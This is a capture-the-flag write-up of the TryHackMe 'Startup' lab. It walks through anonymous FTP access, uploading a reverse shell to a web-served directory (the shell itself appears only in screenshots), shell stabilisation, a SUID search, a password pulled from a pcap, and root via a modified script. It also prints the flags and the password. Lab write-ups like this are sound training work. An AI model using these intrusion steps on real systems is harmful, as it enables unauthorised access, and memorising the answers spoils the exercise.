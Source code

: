 # Startup

* IP = 10.10.16.78

## Questions/Tasks:

### Nmap Scan Results:
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.4.50.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
* Hmmm 🤔 FTP is running and allows *Anonymous* login
* Let's try that first..
* Directory listing:
![Screenshot](./assets/ftp.png)
* Get notice.txt, important.jpg and .test.log from the ftp server
* .test.log seems to be useless
* Contents of notice.txt:
```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```
* Note the name **Maya**
* important.jpg looks like this:<br>
![Picture](./ftp_files/important.png)
* Only thing we get in the webpage:
![Screenshot](./assets/http.png)
* Lets check gobuster for any other directories:

### GoBuster Scan Results:
```bash
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/files (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)

```
* Inside /files we have:(looks like the same directory as FTP)
![Screenshot](./assets/http2.png)
* So, we can upload a reverse shell over FTP and return back at the webpage at /files!!
![Screenshot](./assets/ftp2.png)
![Screenshot](./assets/1.png)
![Screenshot](./assets/2.png)

* Stabilize the shell:
```bash
/usr/bin/script -qc /bin/bash /dev/null
Ctrl + Z
stty raw -echo
fg
export TERM=xterm
```
* Finding the files:
```bash
find / -name *.txt 2>/dev/null
```
![Screenshot](./assets/3.png)
* Aww!! 🥰 ❤️

1. What is the secret spicy soup recipe?<br>

**Ans-love**

* Some folders that doesn't belong to root, that are present:
```bash
drwxr-xr-x   2 root     root      4096 Nov 12  2020 vagrant
drwxr-xr-x   2 www-data www-data  4096 Nov 12  2020 incidents
```
* *Vagrant* folder seems empty
* But the incidents folder has contents:
```bash
www-data@startup:/incidents$ ls -la
total 40
drwxr-xr-x  2 www-data www-data  4096 Nov 12  2020 .
drwxr-xr-x 25 root     root      4096 Jun 29 04:13 ..
-rwxr-xr-x  1 www-data www-data 31224 Nov 12  2020 suspicious.pcapng
```
* Lets get that file to local machine and analyze with **Wireshark**
* Remote machine:
```
python3 -m http.server
```
* Local machine:
```
wget http://10.10.16.78:8000/suspicious.pcapng -O suspicious.pcapng
```
* Follow the TCP stream to get the password:
![Screenshot](./assets/4.png)
![Screenshot](./assets/5.png)
* So it turns out **c4ntg3t3n0ughsp1c3** is password for *lennie*
* Navigate to lennie's home directory and get the user flag.
* Hence *Maya* wasn't a valid name and notice.txt & important.jpg were also some distraction stuff!!😮‍💨😮‍💨

2. Contents of user.txt<br>

**Ans-THM{03ce3d619b80ccbfb3b7fc81e46c0e79}**

* There doesn't seem much inside ~/Documents:
```bash
lennie@startup:~$ cd Documents/
lennie@startup:~/Documents$ ls -la
total 20
drwxr-xr-x 2 lennie lennie 4096 Nov 12  2020 .
drwx------ 4 lennie lennie 4096 Nov 12  2020 ..
-rw-r--r-- 1 root   root    139 Nov 12  2020 concern.txt
-rw-r--r-- 1 root   root     47 Nov 12  2020 list.txt
-rw-r--r-- 1 root   root    101 Nov 12  2020 note.txt
lennie@startup:~/Documents$ cat concern.txt
I got banned from your library for moving the "C programming language" book into the horror section. Is there a way I can appeal? --Lennie
lennie@startup:~/Documents$ cat list.txt
Shoppinglist: Cyberpunk 2077 | Milk | Dog food
lennie@startup:~/Documents$ cat note.txt
Reminders: Talk to Inclinant about our lacking security, hire a web developer, delete incident logs.
lennie@startup:~/Documents$
```
* **sudo -l** doesn't work cause we dont know the root password
* **find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null**
* Also doesn't find anything interesting setuid binary to exploit
* Strange files in scripts directory:<br>
![Screenshot](./assets/6.png)
* Lets modify the */etc/print.sh* script:
```
lennie@startup:~/scripts$ ls -la /etc/print.sh
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
lennie@startup:~/scripts$
```
* Modify like this:<br>
![Screenshot](./assets/7.png)
![Screenshot](./assets/8.png)
* Let it run
* Navigate to /root and get the flag...

3. Contents of root.txt<br>

**Ans-THM{f963aaa6a430f210222158ae15c3d76d}**
